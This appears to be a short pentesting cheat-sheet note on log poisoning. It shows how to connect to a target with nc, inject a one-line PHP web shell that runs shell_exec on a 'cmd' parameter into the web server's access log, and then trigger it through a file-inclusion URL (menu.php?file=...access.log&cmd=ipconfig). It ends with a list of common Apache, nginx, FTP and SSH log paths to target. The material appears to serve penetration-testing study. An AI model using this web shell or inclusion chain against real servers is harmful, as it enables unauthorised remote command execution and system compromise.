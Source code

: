 #### Connect with nc and poison the log:

```bash
nc -nv $TARGET 80
```

```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```

What the log file looks like:
![[Pasted image 20220506100915.png]]

```bash
http://$TARGET/menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
```

Common log locations:
Windows xampp
`c:\xampp\apache\logs\access.log`

Linux locations
`/var/log/apache2/access.log`
`/var/log/apache/access.log`
`/var/log/apache/error.log`
`/var/log/apache2/access.log`
`/var/log/apache2/error.log`
`/var/log/nginx/access.log`
`/var/log/nginx/error.log`
`/var/log/vsftpd.log`
`/var/log/sshd.log`
`/var/log/mail`
`/var/log/httpd/error_log`
`/usr/local/apache/log/error_log`
`/usr/local/apache2/log/error_log`